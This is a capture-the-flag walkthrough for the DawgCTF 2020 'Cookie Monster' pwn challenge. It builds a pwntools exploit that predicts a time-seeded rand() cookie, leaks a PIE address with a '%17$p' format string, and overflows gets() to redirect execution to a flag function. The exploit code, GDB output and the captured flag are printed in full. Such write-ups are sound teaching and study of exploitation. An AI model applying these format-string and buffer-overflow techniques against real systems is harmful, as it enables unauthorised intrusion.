



# DawgCTF 2020

## Cookie Monster

> 250
>
> Hungry?
>
> `nc ctf.umbccd.io 4200`
> 
> [cookie_monster](cookie_monster)

Tags: _pwn_ _time_ _prng_ _bof_ _format-string_ _gets_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)

> NOTE: part way through the competition the binary was "updated".  I had already solved this so did not bother with the latest binary.  Included in this walkthrough is the original binary.


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, but no GOT.


#### Decompile with Ghidra

There are three functions of interest: `conversation`, `check_cookie`, and `flag`.

Main just calls `conversation`:



`conversation` has PRNG, `printf`, and `gets` vulnerabilities.



`check_cookie` takes a single parameter, and compares to the global `saved_cookie` set in `conversation` using a deterministic pseudo random number generator (PRNG).  This will be easy to bypass.

There is no call to:



Clearly we want to call `flag`.

With ASLR (PIE) enabled we'll have to leak a base process address using a `printf` format string exploit (see line 17 in `conversation` above).

To determine what to leak, run `cookie_monster` with GDB (gef in my case), and set a breakpoint at `printf(local_14)`:

```
# setarch $(uname -m) -R gef ./cookie_monster
```

> I find exploit development a bit easier (consistent addresses between sessions) by disabling ASLR with `setarch $(uname -m) -R`.  Just do not hardcode any addresses :-)

```
gef➤  gef config context.nb_lines_stack 16
gef➤  disas conversation
Dump of assembler code for function conversation:
...
   0x000000000000127f <+90>:	call   0x1040 <printf@plt>
   0x0000000000001284 <+95>:	lea    rax,[rbp-0xc]
   0x0000000000001288 <+99>:	mov    rdi,rax
   0x000000000000128b <+102>:	mov    eax,0x0
   0x0000000000001290 <+107>:	call   0x1040 <printf@plt>
   0x0000000000001295 <+112>:	lea    rdi,[rip+0xde7]        # 0x2083
   0x000000000000129c <+119>:	call   0x1030 <puts@plt>
...
End of assembler dump.
gef➤  b *conversation+107
Breakpoint 1 at 0x1290
gef➤  run
Starting program: /pwd/datajerk/dawgctf2020/cookie-monster/cookie_monster
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /
C is for cookie is for me
Oh hello there, what's your name?
foo

Breakpoint 1, 0x0000555555555290 in conversation ()
```

After the break look at the stack:

```
0x00007fffffffe530│+0x0000: 0x00005555555550d0  →  <_start+0> xor ebp, ebp	 ← $rsp
0x00007fffffffe538│+0x0008: 0x00007fffffffe640  →  0x0000000000000001
0x00007fffffffe540│+0x0010: 0x0a6f6f6600000000
0x00007fffffffe548│+0x0018: 0x7b366b8155555300
0x00007fffffffe550│+0x0020: 0x00007fffffffe560  →  0x0000555555555360  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe558│+0x0028: 0x000055555555534f  →  <main+24> mov eax, 0x0
0x00007fffffffe560│+0x0030: 0x0000555555555360  →  <__libc_csu_init+0> push r15
0x00007fffffffe568│+0x0038: 0x00007ffff7de11e3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffe570│+0x0040: 0x0000000000000000
0x00007fffffffe578│+0x0048: 0x00007fffffffe648  →  0x00007fffffffe846  →  "/pwd/datajerk/dawgctf2020/cookie-monster/cookie_mo[...]"
0x00007fffffffe580│+0x0050: 0x0000000100100000
0x00007fffffffe588│+0x0058: 0x0000555555555337  →  <main+0> push rbp
0x00007fffffffe590│+0x0060: 0x0000000000000000
0x00007fffffffe598│+0x0068: 0xce733409bffac3f0
0x00007fffffffe5a0│+0x0070: 0x00005555555550d0  →  <_start+0> xor ebp, ebp
0x00007fffffffe5a8│+0x0078: 0x00007fffffffe640  →  0x0000000000000001
```

Lines `+0x0028` and `+0x0058` both look interesting.  The first is the return address for `conversation`.  When `conversation` executes `ret` this address will be popped from the stack into RIP and program execution will continue in `main` just after the call to `conversation`--we'll use `gets` to overwrite the return address with the address of `flag`.

The second is the start of `main`.  We'll use `printf` to leak this address, so we can compute the location of `flag` for the `gets` exploit.

x86_64 glibc `printf` parameters 1-5 are located in registers `rsi`, `rdx`, `rcx`, `r8`, `r9` (in that order).  Parameters starting with 6 are located on the stack.  Starting from the top and counting down `main+0` is the 17th parameter.


### Exploit

#### Attack Plan

1. Compute the `saved_cookie` value
2. Leak the address of `main+0` and compute the location of `flag`
3. Overflow buffer, re-set `saved_cookie`, smash the stack, get the flag


#### Compute the `saved_cookie` value

```
from pwn import *

p = process('./cookie_monster')
#p = remote('ctf.umbccd.io', 4200)

from ctypes import *
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(None))
saved_cookie = libc.rand()
```

Python has a convenient way to [call C functions](https://docs.python.org/3/library/ctypes.html); this code will use glibc's `time`, `srand`, and `rand` functions to return the same value as:

```
tVar1 = time((time_t *)0x0);
srand((uint)tVar1);
saved_cookie = rand();
```

from `conversation` above.  

> There is a small probability (increased when running over the network) that the clocks could be off by a second and an error `"*** Stack Smashing Detected *** : Cookie Value Corrupt!"` error will be emitted.  Just rerun.
>
> Check that your system clock is accurate--NTP should be enabled.

This step is necessary because the buffer overflow will overwrite `saved_cookie` (`saved_cookie` is a poor mans stack smashing detection), so we need to overwrite it with the correct value.

> I suppose it is possible to read it from memory, its directly above EBP, and in the stack as parameter 9 (or at least the lower order 32-bit (int)):
>
> ```
> printf "0x%08x\n" $(echo $((0x7b366b8155555300 & 0xFFFFFFFF)))
> 0x55555300
> ```
>
> However the `fgets` call is limited to 7 bytes (the 8th does not count--`fgets` reads one less)--there's isn't enough space to leak two values.

#### Leak the address of `main+0` and compute the location of `flag`

```
p.recvuntil('name?\n')
p.sendline('%17$p')
_ = p.recvuntil('cookie?\n')

main = int(_[:21][7:],16)
print(hex(main))
```

This is fairly straightforward, we already established in the analysis section that `main+0` is the 17th parameter, to leak it input `%17$p` as name, the output of the `printf` will look something like:

```
b'Hello, 0x555555555337\n\nWould you like a cookie?\n'
```

Just extract and convert to an integer.

To compute the location of `flag`:

```
binary = ELF('cookie_monster')
flag = main + (binary.symbols['flag'] - binary.symbols['main'])
print(hex(flag))
```


#### Overflow buffer, re-set `saved_cookie`, smash the stack, get the flag


From the disassembly, `local_19` is `0x11` (17) bytes above the saved base pointer and the return address:

```
001012a1 48 8d 45 ef     LEA        RAX=>local_19,[RBP + -0x11]
```

However the last 4 bytes need to be the `saved_cookie`.

```
payload = (0x11 - 4) * b'A'
payload += p32(saved_cookie)
payload += 8 * b'B'
payload += p64(flag)

p.sendline(payload)
p.stream()
```

The payload sends 13 `A`s, follow by the PRNG/time computed `saved_cookie`, the 8 bytes to overwrite the saved based pointer, then the address of `flag`.


#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4200: Done
0x5559c8bbc337
[*] '/pwd/datajerk/dawgctf2020/cookie-monster/cookie_monster'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x5559c8bbc1b5
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
```

#### Flag

```
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
```
